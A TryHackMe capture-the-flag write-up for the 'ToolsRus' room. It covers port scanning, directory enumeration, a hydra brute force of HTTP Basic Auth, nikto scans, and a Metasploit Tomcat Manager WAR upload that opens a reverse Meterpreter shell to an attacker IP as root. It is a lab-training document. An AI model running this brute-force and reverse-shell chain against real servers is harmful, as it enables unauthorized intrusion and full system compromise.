





# ToolsRus - TryHackMe Writeup

**Platform:** [TryHackMe - ToolsRus](https://tryhackme.com/room/toolsrus)
**Difficulty:** Easy

---

## 1. Recon

Full port scan - the interesting service is not on a standard port.

```bash
nmap -sV -sC -p- -T4 <TARGET_IP>
```

**Findings:**

```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
```

- Port 80 → Apache 2.4.18, the visible "ToolsRUs" site
- Port 1234 → **Apache Tomcat/7.0.88**, a second web service
- Port 8009 → AJP13, a binary connector protocol, **not** HTTP


*Vollständiger Portscan: neben 22/80 liegt ein zweiter Webdienst auf 1234 (Tomcat 7.0.88), 8009 ist AJP.*

Without `-p-` the service on 1234 is easily missed. AJP on 8009 looks like a web server but does not answer HTTP requests - nmap reports `ajp-methods: Failed to get a valid response for the OPTION request`.

---

## 2. Enumeration

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

Found:

```
/guidelines           (Status: 301) [Size: 319]
/protected            (Status: 401) [Size: 460]
/server-status        (Status: 403) [Size: 301]
```

- `/guidelines` → redirect, readable
- `/protected` → **401**, HTTP Basic Auth
- `/server-status` → 403, no access


*gobuster findet /guidelines (301) und das per Basic Auth geschützte /protected (401).*

---

## 3. Information Disclosure

```bash
curl http://<TARGET_IP>/guidelines/
```

The whole page is a single sentence:

```
Hey bob, did you update that TomCat server?
```

Two gifts at once: the username **bob**, and confirmation that the Tomcat instance on port 1234 is the real target. The username is what makes the next step realistic - guessing username *and* password at the same time would not be.


*Die /guidelines-Seite verrät den Benutzernamen bob und verweist nebenbei auf den TomCat-Server.*

---

## 4. Brute Force - Basic Auth

The `401` means HTTP Basic Auth, so the hydra module is `http-get` - **not** `http-post-form`, which is only for HTML login forms.

```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-get /protected
```

Result:

```
[80][http-get] host: <TARGET_IP>   login: bob   password: bubbles
1 of 1 target successfully completed, 1 valid password found
```

Cracked in under two seconds - the password sits near the top of `rockyou.txt`.

Verify:

```bash
curl -u bob:bubbles http://<TARGET_IP>/protected/
```

The protected page states that it *"has now moved to a different port"* - pointing at the Tomcat instance on 1234, exactly as the guidelines page hinted.

---

## 5. Vulnerability Scan

Against port 80, for the server version:

```bash
nikto -h http://<TARGET_IP>
```

```
+ Server: Apache/2.4.18 (Ubuntu)
```


*nikto gegen Port 80 bestätigt Apache/2.4.18 (Ubuntu).*

Against the Tomcat Manager on 1234, using the credentials from step 4:

```bash
nikto -h http://<TARGET_IP>:1234/manager/html -id bob:bubbles
```

`-id user:pass` passes the Basic Auth credentials. Key findings:

```
+ Successfully authenticated to realm 'Tomcat Manager Application'
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: 'PUT' method could allow clients to save files on the web server
+ OSVDB-3233: /manager/html/manager/manager-howto.html: Tomcat documentation found.
```


*nikto authentifiziert sich am Tomcat Manager und meldet erlaubtes PUT - die Grundlage für den Datei-Upload.*

Authenticated Manager access **plus** an allowed `PUT` is the whole attack path: Tomcat deploys WAR archives, and a WAR contains executable Java code.

---

## 6. Exploitation - Tomcat Manager WAR Upload

```bash
msfconsole -q
```

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <TARGET_IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set LHOST <ATTACKER_IP>
exploit
```

`RPORT` is critical - the module defaults to 80, and the target runs on 1234.

```
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying jJqwR0hxXmeG6nUsc...
[*] Executing jJqwR0hxXmeG6nUsc...
[*] Undeploying jJqwR0hxXmeG6nUsc ...
[*] Meterpreter session 1 opened
```

The module authenticates, uploads a WAR, triggers it, and cleans up after itself.

---

## 7. Troubleshooting - Payload Mismatch

A first attempt with an explicitly set JSP payload failed:

```
set payload java/jsp_shell_reverse_tcp
[*] Uploading and deploying X5DMXXxaRZ8V1G5r...
[-] Exploit failed: ArgumentError wrong number of arguments (given 1, expected 0)
```

This is **not** a configuration error. The upload had already started, so credentials, port and `LHOST` were correct. `ArgumentError` is a Ruby error inside the module itself: it calls `encoded_war()` with one argument, but the JSP payload does not accept one at that point.

The fix was to keep the payload msfconsole suggests on its own:

```
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
```

**Rule of thumb:** a Ruby exception instead of a network error means the payload does not fit the module. Fall back to the module's own default before touching anything else.

---

## 8. Root Flag

The Tomcat service runs as root, so no privilege escalation is needed.

```
meterpreter > getuid
Server username: root

meterpreter > cat /root/flag.txt
```


*Erst der ArgumentError mit dem JSP-Payload, dann der Wechsel auf java/meterpreter/reverse_tcp und die Session als root. Flag geschwärzt.*

---

## Lessons Learned

- Always scan **all** ports with `-p-` - web services on 1234, 8000 or 8080 are invisible to a default scan
- `ajp13` on 8009 is not HTTP - it is Tomcat's internal connector and cannot be browsed
- A harmless-looking page leaking a username makes brute force realistic, because only one variable is left to guess
- Basic Auth (`401` popup) needs hydra's `http-get`, HTML login forms need `http-post-form`
- Access to the Tomcat Manager equals remote code execution: WAR deployment is a documented feature, not a bug
- Services running as root turn any RCE into an instant full compromise
- A Ruby `ArgumentError` in Metasploit points at the payload, not at your options - use the module default first
